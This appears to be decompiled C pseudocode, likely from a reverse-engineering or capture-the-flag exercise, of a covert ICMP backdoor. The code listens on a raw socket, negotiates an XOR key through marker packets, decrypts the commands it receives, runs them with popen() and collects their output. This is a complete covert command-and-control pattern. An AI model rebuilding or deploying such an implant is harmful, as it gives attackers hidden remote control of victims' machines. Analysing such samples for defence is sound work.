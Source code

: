 ```
  uint local_1c;
  
  local_2c = socket(2,3,1);
  if (local_2c < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  do {
    do {
      do {
        do {
          memset(local_6418,0,0x63c0);
          sVar2 = recv(local_2c,local_6418,0x63bf,0);
        } while (sVar2 < 1);
        local_38 = local_6418;
        local_40 = &local_6404;
        local_44 = 0x1c;
        if ((local_6404 == '\f') && (local_6403 == '#')) {
          local_c7e0[0] = (byte)local_6402;
          local_c7e0[1] = (byte)((ushort)local_6402 >> 8);
          iVar1 = rand();
          local_c7de = CONCAT11(local_c7de._1_1_,(char)iVar1);
          iVar1 = rand();
          local_c7d9 = (byte)iVar1;
          local_c7de = CONCAT11(local_c7d9,(byte)local_c7de);
          local_c7dc = local_c7e0[1] ^ local_c7e0[0];
          local_c7db = local_c7d9 ^ (byte)local_c7de;
          local_c7da = (byte)local_c7de ^ local_c7e0[0];
          local_c7d9 = local_c7d9 ^ local_c7e0[1];
          memset(local_c808,0,0x20);
          local_c818.sa_family = 2;
          local_c818.sa_data._2_4_ = *(undefined4 *)(local_38 + 0xc);
          local_c808[0] = 0;
          local_c806 = local_c7de;
          sleep(1);
          sendto(local_2c,local_c808,(long)local_48 + 8,0,&local_c818,0x10);
        }
      } while ((*local_40 != '\x13') || (local_40[1] != '*'));
      local_c818.sa_family = 2;
      local_c818.sa_data._2_4_ = *(undefined4 *)(local_38 + 0xc);
      memset(local_c7d8,0,0x63c0);
      memcpy(local_c7d8,local_6418 + local_44,(ulong)(0x63bf - local_44));
      local_28 = 0x63c0;
      while ((uVar6 = (ulong)(int)local_28, sVar3 = strlen((char *)local_c7d8), sVar3 <= uVar6 &&
             (local_c7d8[(int)(local_28 - 1)] == 0))) {
        local_28 = local_28 - 1;
      }
      for (local_24 = 0; (int)local_24 < (int)local_28; local_24 = local_24 + 1) {
        local_c7d8[(int)local_24] = local_c7d8[(int)local_24] ^ local_c7e0[local_24 & 7];
      }
      puts((char *)local_c7d8);
      fflush(stdout);
      local_50 = popen((char *)local_c7d8,"r");
    } while (local_50 == (FILE *)0x0);
    memset(local_c7d8,0,0x63c0);
    memset(local_6418,0,0x63c0);
    while (pcVar5 = fgets(local_6418,0x63c0,local_50), pcVar5 != (char *)0x0) {
      sVar3 = strlen((char *)local_c7d8);
      sVar4 = strlen(local_6418);
      if (0x63be < sVar4 + sVar3) break;
      strcat((char *)local_c7d8,local_6418);
    }
    pclose(local_50);
```